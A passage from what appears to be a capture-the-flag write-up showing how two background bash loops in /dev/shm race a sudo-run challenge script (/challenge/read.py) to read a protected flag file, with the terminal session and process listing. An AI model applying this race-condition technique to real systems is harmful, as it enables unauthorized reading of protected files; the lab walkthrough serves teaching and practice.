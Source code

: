 Give it right permissions

```
ctf@speed-74bbd6d8d9-6724k:/$ chmod 777 /dev/shm/script_read
```

Then execute it (Note the use of `bash` before the script path since for some reason `/dev/shm` doesnt allow executing scripts in this container), always in the background using `Ampersand (&)`  :

```
ctf@speed-74bbd6d8d9-6724k:/$ bash /dev/shm/script_read &
```


### Execution

Here is how an execution scenario looks like :


```
ctf@speed-74bbd6d8d9-6724k:/$ touch /dev/shm/err
ctf@speed-74bbd6d8d9-6724k:/$ chmod 777 /dev/shm/err
ctf@speed-74bbd6d8d9-6724k:/$ ls -l /dev/shm
total 16
-rwxrwxrwx 1 ctf ctf  0 Dec 26 18:18 err
ctf@speed-74bbd6d8d9-6724k:/$ tee > /dev/shm/script_cat
#!/bin/bash
old="1"

while [ "$old" == "$old" ]  
do
   cat /tmp/"A_flag_that_you_can't_catch" 2> /dev/shm/err &
done
^C
ctf@speed-74bbd6d8d9-6724k:/$ chmod 777 /dev/shm/script_cat
ctf@speed-74bbd6d8d9-6724k:/$ tee > /dev/shm/script_read
#!/bin/bash
CHECK_FILE="ls -l /tmp"
old=$($CHECK_FILE)
new=$($CHECK_FILE)

while [ "$old" == "$new" ]  
do
   sudo -u ctf-cracked /challenge/read.py
   new=$($CHECK_FILE)
done
echo "STOP... The /tmp folder has been changed"
^C
ctf@speed-74bbd6d8d9-6724k:/$ chmod 777 /dev/shm/script_read 
ctf@speed-74bbd6d8d9-6724k:/$ bash /dev/shm/script_cat &
[1] 136470
ctf@speed-74bbd6d8d9-6724k:/$ bash /dev/shm/script_read &
[2] 136637
ctf@speed-74bbd6d8d9-6724k:/$ ps -aef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 Dec23 ?        00:00:00 /bin/sh -c service cron start .    && service rsyslog start .    && service ssh start .    && tail -f --retry /var/log/auth.log
root          13       1  0 Dec23 ?        00:00:02 /usr/sbin/cron
root          22       1  0 Dec23 ?        00:00:07 /usr/sbin/rsyslogd
root          39       1  0 Dec23 ?        00:00:08 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root          40       1  0 Dec23 ?        00:00:15 tail -f --retry /var/log/auth.log
root      130360      39  0 18:13 ?        00:00:00 sshd: ctf [priv]
ctf       130366  130360  0 18:13 ?        00:00:00 sshd: ctf@pts/0
ctf       130367  130366  0 18:13 pts/0    00:00:00 -bash
ctf       136470  130367  0 18:21 pts/0    00:00:00 bash /dev/shm/script_cat
ctf       136637  130367  0 18:21 pts/0    00:00:00 bash /dev/shm/script_read
```